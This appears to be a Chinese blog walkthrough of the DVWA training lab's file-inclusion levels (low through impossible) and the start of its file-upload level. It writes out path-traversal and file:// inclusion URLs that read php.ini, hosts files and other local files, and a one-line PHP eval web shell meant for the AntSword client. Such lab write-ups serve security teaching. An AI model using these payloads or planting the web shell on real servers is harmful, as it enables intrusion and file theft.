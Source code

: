 ![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/015afe448e48090081cef336c75d8030.png)
看代码
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/21bc1d88d5f1b5a59a7957c6989df6cb.png)
根据安全类型包含对应的[安全类型].php,被包含文件中定义被包含的页面变量$file
low.php
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/1cd8566b91dbabc0939ecf851deeff53.png)
接下来换成读取php.ini :http://192.168.20.48/DVWA/vulnerabilities/fi/?page=../../php.ini
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/e6f6465ddd8475243b97174a811c45ef.png)
phpinfo.php：http://192.168.20.48/DVWA/vulnerabilities/fi/?page=../../phpinfo.php
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/4255bea2c1667b3ef2a8c08d668c42ae.png)
直接路径包含其他项目的文件：http://192.168.20.48/DVWA/vulnerabilities/fi/?page=D:\green\wamp\www\helloworld\if.php
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/53544f55a771bb9643db01f47c9b2716.png)
权限够的包含linux下的/etc/passwd等
window下： http://192.168.20.48/DVWA/vulnerabilities/fi/?page=C:\Windows\System32\drivers\etc\hosts

访问其他网站:http://192.168.20.48/DVWA/vulnerabilities/fi/?page=https://www.baidu.com
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/9b8ba8047e55300ce75675ca2c62eed1.png)


#### Medium
看代码
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/3697a01bd5250bfc753eff7a028fd669.png)
将https://,https://和../开头的屏蔽掉了，但是绝对路径的依然可访问
如：http://192.168.20.48/DVWA/vulnerabilities/fi/?page=D:\green\wamp\www\helloworld\if.php

#### Hign
看代码

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/a3c3c8fb984cd7f3e5b18358aaae35c7.png)
匹配$file必须为file开头的字符串且不是include.php
因为只匹配了开头，那么file协议刚刚好满足此条件
http://192.168.20.48/DVWA/vulnerabilities/fi/?page=file:///D:\green\wamp\www\helloworld\if.php
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/ad8303c0b3f30b787b1f08bd74148cf9.png)
#### impossible
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/5532efc5e2e5bdb4896b767b61fa22d0.png)
写死了，只能是include.phpp file1-3.php,除非通过之前的命令行注入修改这几个包含文件的内容否则就无解了。

这里测试的include.php中包含的file3.php存在xss漏洞
http://192.168.20.48/DVWA/vulnerabilities/fi/?page=file3.php
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/76a0028c28408ff27aef1ff2477ac632.png)

### File Upload（文件上传）
File Upload，即文件上传漏洞，指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得攻击者可以通过上传木马获取服务器的webshell权限。
#### Low
查看代码
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/c63243afd5c9aa48fa1f124b6565abb0.png)
直接将文件传输上传到hackable/upload/目录，未做任何限制
安装中国蚁剑（参考：https://www.yuque.com/antswordproject/antsword/srruro）
>出现代码解压出错：[object Object]，可以再次管理员身份运行即可安装好，安装后再次打开即可用。
添加一个shell文件(https://www.yuque.com/antswordproject/antsword/qg3g73)
ant.php 内容：（注意ant参数蚁键里是密码）
```
<?php eval($_POST['ant']); ?>
```
通过功能上传